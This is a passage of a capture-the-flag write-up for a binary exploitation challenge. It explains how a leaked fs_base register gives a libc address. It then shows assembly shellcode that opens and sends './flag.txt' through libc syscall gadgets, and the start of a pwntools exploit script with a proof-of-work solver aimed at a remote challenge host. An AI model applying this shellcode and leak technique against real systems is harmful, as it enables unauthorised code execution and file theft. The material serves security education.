 ```
gs             0x0                 0
fs_base        0x7ffff7d8d740      140737351571264
gs_base        0x0                 0
```

In fact, the `fs_base` register hasn't been cleared out and contains a libc address. This points to the `fs` struct
which stores certain important values like canary or the key for `PTR_MANGLE`.

To get this value in our shellcode, we can simply `mov $register, fs_base` and manipulate it from there.

With a libc leak, we can then call `syscall` gadgets. The rest is trivial.

```asm
mov    r8,QWORD PTR fs:0x0
mov    rsp,r8
add    r8,0x28c0
mov    rdi,0x13370300 ; points to "./flag.txt\x00"
mov    rax,0x2
lea    rbx,[r8+0x90cb6] ; syscall
call   rbx
mov    rdi,0x1
mov    rsi,rax
mov    r10,0x100
mov    rax,0x28
lea    rbx,[r8+0x90cb6] ; syscall
call   rbx
```

## Exploit

```python
from pwn import *
import hashlib

# this code is provided to solve the PROOF OF WORK on remote (to discourage brute-forcing)
def pow_solver(p):
    p.recvuntil(b"sha256(")
    challenge = p.recvuntil(b" + ", drop=True)
    p.recvuntil(b"(")
    difficulty = int(p.recvuntil(b")", drop=True))
    answer = 0
    log.info(f"finding pow for {challenge.decode()}, {difficulty}")
    while True:
        answer += 1
        h = hashlib.sha256()
        h.update(challenge + str(answer).encode())
        bits = ''.join(bin(i)[2:].zfill(8) for i in h.digest())
        if bits.startswith('0' * difficulty):
            break
    p.sendlineafter(b"answer: ", str(answer).encode())
    log.success("PoW solved!")

# p = remote("localhost", 34568)
if args.LOCAL:
    p = process("./chall_backup")
    gdb.attach(p, gdbscript="b *call_shellcode+120")
    pause()
else:
    p = remote("challs.nusgreyhats.org", 34568)
    pow_solver(p) # uncomment if running on remote!

# fs_base + 0x1ea1a0
```